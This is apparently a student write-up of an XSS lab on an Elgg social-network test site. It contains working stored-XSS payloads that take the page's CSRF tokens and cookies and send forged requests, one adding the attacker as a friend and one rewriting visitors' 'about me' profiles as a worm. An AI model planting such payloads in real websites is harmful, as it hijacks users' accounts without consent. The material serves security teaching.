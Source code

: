 For this we can use the following code in javascript using AJAX and then store it into the 'about me' section of `user11`. The code is as follows -
```js
<script type="text/javascript">
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=43"+ts+token;
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/user11");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
</script>
```
This code forms the GET request to duplicate the add friend action of the web app. When the victim say `alice` views the homepage of the attacker `user11`, her browser will read this code and execute the javascript inside the tags. Since the user `alice` is logged in while the code is executed, the attack will run smoothly and `user11` will be added to the friend list of `alice`.

### Task 5 : Writing an XSS worm
This task is about coding a worm which can change the information of an account in the web app. This requires the analysis of changing the 'about me' section in the web app. The attacker `user11` uses the other account `samy` to update the 'about me' section to study the process. The 'inspect element' reveals that the process is a POST request which requires few parameters from the document. These parameters are specific to the session and the user, therefore, searching the parameters in the document, they are set as follows -
1. timestamp and token i.e., `__elgg_ts` and `__elgg_token` are stored in the document under `elgg.security.token` section in the html document.
2. user name of the session user is in JSON format variable called `elgg.session.user`.
3. guid of the session user is also in the `elgg.session.user` section.
4. the parameter `description` is the one that specifies what data is stored in the text field of the 'about me' section.
5. the `description` parameter has a control access field called `accesslevel[description]` which is 2 for private users, 1 for friends, 0 for others - has to be set to 2 always for changing the data in the 'about me' section.

The objective is to write a javascript code in the 'about me' section of `user11` such that when someone visits the profile of `user11`, the status as required by `user11` which is also set on his own account will be set on the account of the one who visits `user11`'s page. The javascript code must contain the post request required to proceed with the changing of the text in the 'about me' section. The code is as follows -
```js
<script type="text/javascript">
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;
ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/"+elgg.session.user["username"]+"/edit");
params="__elgg_ts="+ts+"&__elgg_token="+token+"&description=User-11-is-great"+"&name="+elgg.session.user["username"]+"&accesslevel[description]=2&guid="+elgg.session.user["guid"];
ff.send(params);
```